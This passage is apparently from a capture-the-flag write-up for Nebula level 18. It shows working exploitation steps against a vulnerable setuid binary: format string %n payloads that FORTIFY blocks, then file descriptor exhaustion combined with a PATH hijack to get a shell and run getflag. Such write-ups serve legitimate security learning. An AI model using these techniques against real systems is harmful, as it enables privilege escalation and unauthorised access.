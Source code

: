 This seems to be a subtle reference to [SITE EXEC format string vulnerability in WU-FTPD 2.6.0](https://www.rapid7.com/db/modules/exploit/multi/ftp/wuftpd_site_exec_format). We  confirm this: 
```bash
$ /home/flag18/flag18 -d deb -vvv
site exec %s%s%s%s%s%s%s%s%s%s%s%s
Segmentation fault
```

But after analysing and crafting a payload to modify addresses (based on the great reference book by [Jon Erickson, Hacking - The Art of Exploitation (2nd edition)](https://www.nostarch.com/hacking2.htm), I realized there's another Fortify protection that doesn't allow **`%n`** format parameter (seems that this could also by bypassed as described by [Captain Planet in Phrack magazine](http://www.phrack.org/issues.html?issue=67&id=9)):
```bash
level18@nebula:~$ echo -e site exec `perl -e 'print "AB"."\xb4\xb0\x04\x08"."%08x."x23,"%n"'` "\nsite exec" `perl -e 'print "AB"."\xb4\xb0\x04\x08"."%08x."x24'` | /home/flag18/flag18 -d /tmp/log -vvv
*** %n in writable segment detected ***
Aborted
```

The same protection restrict the overwriting of destructor method: 
```bash
level18@nebula:~$ nm /home/flag18/flag18 | grep DTOR
0804af20 D __DTOR_END__
0804af1c d __DTOR_LIST__
level18@nebula:~$ objdump -s -j .dtors /home/flag18/flag18
/home/flag18/flag18:     file format elf32-i386
Contents of section .dtors:
 804af1c ffffffff 00000000                    ........
level18@nebula:~$ echo -e site exec `perl -e 'print "AB"."\x20\xaf\x04\x08"."%08x."x23,"%n"'` "\nsite exec" `perl -e 'print "AB"."\x20\xaf\x04\x08"."%08x."x24'` | /home/flag18/flag18 -d /tmp/log -vvv
*** %n in writable segment detected ***
Aborted
```

No luck (something more than luck needed:) with these methods. But we have forgotten the mentioned _easy_ way. As it was previously described [here](http://vnico.mundodisco.net/archives/36), the login() function opens a file, but never closes it, and in the case where the file couldn't be opened (maximum opened files reached), it will still set the _`globals.loggedin`_ variable, that will allow us to execute a shell afterwards. So we will fill all the available file descriptors and after that close the file descriptor for the debug log (to free one file descriptor, otherwise we won't be able to execute out command that needs a file descriptor to open). We can check for the maximum allowed opened files: 
```bash
level18@nebula:~$ ulimit -a 
[..]
open files                      (-n) 1024
```

Extracting the steps from the mentioned reference, we have: 
```bash
level18@nebula:~$ for i in {0..1030}; do echo "login test" >> /tmp/input; done
level18@nebula:~$ echo "closelog" >> /tmp/input
level18@nebula:~$ echo "shell" >> /tmp/input
level18@nebula:~$ echo "/bin/getflag" > /tmp/Starting
level18@nebula:~$ chmod +x /tmp/Starting
PATH=/tmp:$PATH cat /tmp/input |/home/flag18/flag18 --init-file -d /tmp/debuglog
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
```